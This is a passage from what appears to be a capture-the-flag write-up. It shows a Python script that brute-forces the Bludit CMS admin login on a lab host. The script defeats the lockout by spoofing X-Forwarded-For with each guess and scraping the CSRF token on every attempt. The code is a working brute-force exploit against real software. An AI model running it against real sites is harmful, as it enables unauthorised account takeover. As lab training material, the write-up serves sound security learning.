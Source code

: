 ## Brute-Forcing the Login

During our investigation of CVEs, we came across a brute-force mitigation bypass. Looking at the references we find a proof of concept written in
python(https://rastating.github.io/bludit-brute-force-mitigation-bypass/). Lets modify it for our own purposes.

```python
#!/usr/bin/env python3
import re
import requests
import random
import socket
import struct

host = 'http://10.10.10.191'
login_url = host + '/admin/login'
username = 'fergus'
with open('cewl-wl', 'r+') as f:
    wordlist = [line.rstrip('\n') for line in f.readlines()]

# Generate 50 incorrect passwords
for i in range(50):
    wordlist.append('Password{i}'.format(i = i))

# Add the correct password to the end of the list
wordlist.append('adminadmin')

for password in wordlist:
    session = requests.Session()
    login_page = session.get(login_url)
    csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)

    print('[*] Trying: {p}'.format(p = password))

    headers = {
        'X-Forwarded-For': password,
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
        'Referer': login_url
    }

    data = {
        'tokenCSRF': csrf_token,
        'username': username,
        'password': password,
        'save': ''
    }

    login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)

    if 'location' in login_result.headers:
        if '/admin/dashboard' in login_result.headers['location']:
            print()
            print('SUCCESS: Password found!')
            print('Use {u}:{p} to login.'.format(u = username, p = password))
            print()
            break
```

